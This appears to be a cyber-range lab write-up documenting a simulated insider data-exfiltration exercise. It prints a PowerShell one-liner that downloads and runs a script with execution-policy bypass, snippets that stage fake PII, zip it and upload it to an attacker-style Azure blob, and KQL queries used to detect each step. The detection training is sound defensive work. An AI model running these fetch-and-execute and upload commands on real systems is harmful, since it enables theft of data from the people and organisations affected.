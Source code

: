 # Project Appendix: Simulating Data Exfiltration

This document details the technical setup used to simulate the "Data Exfiltration by a Disgruntled Employee" scenario. The core of this simulation is a single PowerShell script designed to mimic common attacker techniques.

---

### 1. The Trigger Command

The simulation was initiated on the target machine by executing a one-line command. This command downloads the main exfiltration script from a repository and immediately runs it, bypassing the local execution policy to ensure it executes.

```powershell
Invoke-WebRequest -Uri '[https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1](https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1)' -OutFile 'C:\programdata\exfiltratedata.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1
```
### 2. Analysis of the exfiltratedata.ps1 Script
The script performs a multi-stage operation to collect, stage, and exfiltrate data. Below are the key snippets that illustrate its functionality.

#### Data Collection
The script begins by creating a multi-line string containing fake, but realistic, employee PII to be saved in a CSV file.

```powershell
# Create the employee data with fake information
 $employeeData = @"
$($currentDateTime)
FirstName,LastName,SSN,PhoneNumber,Salary,DOB
Travis,Ward,294-75-2745,(703)785-1895,79976.31,1984-11-10
Paul,Berry,785-68-1220,001-875-136-8234x217,66220.38,1969-02-23
```

#### Tool Staging (Downloading 7-Zip)
Next, it downloads a legitimate, portable version of the 7-Zip utility from an external server to ensure it has the tools it needs.

```powershell
# Download 7zip
try {
    Invoke-WebRequest -Uri '[https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe](https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe)' -OutFile 'C:\ProgramData\7z2408-x64.exe'
    Log-Message "Downloaded 7zip installer to C:\ProgramData\7z2408-x64.exe"
} catch {
    Log-Message "Error downloading 7zip: $_" "ERROR"
}
```
#### Data Archiving
It then uses the newly downloaded 7-Zip to compress the CSV file into a ZIP archive, staging it for exfiltration.

```powershell
# Use 7zip to zip the temporary CSV file
try {
    & "C:\Program Files\7-Zip\7z.exe" a $zipFilePath $tempFilePath
    Write-Host "File zipped to: $zipFilePath"
    Log-Message "Zipped file to: $zipFilePath"
} catch {
    Log-Message "Error zipping file: $_" "ERROR"
}
```
#### Exfiltration to Cloud Storage
Finally, the script constructs and executes a web request to upload the ZIP archive to an attacker-controlled Azure Blob Storage account.

```powershell
# Define Azure Blob Storage variables
$storageUrl = "[https://sacyberrangedanger.blob.core.windows.net/stolencompanydata/employee-data.zip](https://sacyberrangedanger.blob.core.windows.net/stolencompanydata/employee-data.zip)"
$storageAccount = "sacyberrangedanger"
$storageKey = "CloudAccessKey-removed-for-safety-reasons"

# ... (Signature creation logic) ...

# Upload the blob using Invoke-WebRequest
try {
    Invoke-WebRequest -Uri $storageUrl -Method Put -Headers $headers -InFile $zipFilePath -UseBasicParsing
    Log-Message "Uploaded the zip file to Azure Blob Storage: $storageUrl"
} catch {
    Log-Message "Error uploading the zip file to Azure Blob Storage: $_" "ERROR"
}
```
### 3. KQL Queries Used for Detection

Below are the KQL queries used in Microsoft Defender XDR to trace the attacker's activity from the initial script creation to the final data exfiltration.

#### Query 1: Detecting Script Creation
This query was used to find evidence of the malicious script (`exfiltratedata.ps1`) being created on the target host by the user `analyst1`.

```kql
// Query to show creation of exfiltratedata.ps1 by analyst1
DeviceFileEvents
| where DeviceName == "arguswinten" and InitiatingProcessAccountName == "analyst1"
| where Timestamp between (datetime(2025-05-08T00:00:00Z) .. datetime(2025-05-08T23:59:59Z))
| where FileName == "exfiltratedata.ps1" and ActionType == "FileCreated"
| project Timestamp, ActionType, FileName, FolderPath, InitiatingProcessAccountName, InitiatingProcessFileName, InitiatingProcessCommandLine
| sort by Timestamp asc
```
#### Query 2: Identifying Data Archiving
This query looked for the creation of the specific `.zip` file that the script was designed to create, confirming that the data collection phase of the attack was successful.

```powershell
// Query to show creation of the specific ZIP file by analyst1's script activity
DeviceFileEvents
| where DeviceName == "arguswinten" and InitiatingProcessAccountName == "analyst1" 
| where Timestamp between (datetime(2025-05-08T00:00:00Z) .. datetime(2025-05-08T23:59:59Z))
| where FileName == "employee-data-20250508185834.zip" and ActionType == "FileCreated" and InitiatingProcessFileName == "7z.exe"
| project Timestamp, ActionType, FileName, FolderPath, FileSize, InitiatingProcessAccountName, InitiatingProcessFileName
| sort by Timestamp asc
```
#### Query 3: Confirming Data Exfiltration
This final query searched for network connections initiated by the malicious script to a known suspicious domain, confirming that the archived data was successfully sent off the corporate network.

```powershell
DeviceNetworkEvents
| where DeviceName == "arguswinten" and InitiatingProcessAccountName == "analyst1"
| where Timestamp between (datetime(2025-05-08T00:00:00Z) .. datetime(2025-05-08T23:59:59Z))
| where InitiatingProcessFileName =~ "powershell.exe" and InitiatingProcessCommandLine contains "exfiltratedata.ps1"
| where RemoteUrl contains "sacyberrangedanger.blob.core.windows.net"
| project Timestamp, ActionType, LocalIP, RemoteUrl, RemoteIP, InitiatingProcessAccountName, InitiatingProcessFileName, InitiatingProcessCommandLine
| sort by Timestamp asc
```

## Created By:
- **Author Name**: Jorge Juarez
- **Code creator**: Josh Madakor https://joshmadakor.tech/
- **Author Contact**: https://www.linkedin.com/in/jorgejuarez1/
- **Date**: May 8, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `July 8, 2025`  | `Jorge Juarez`   

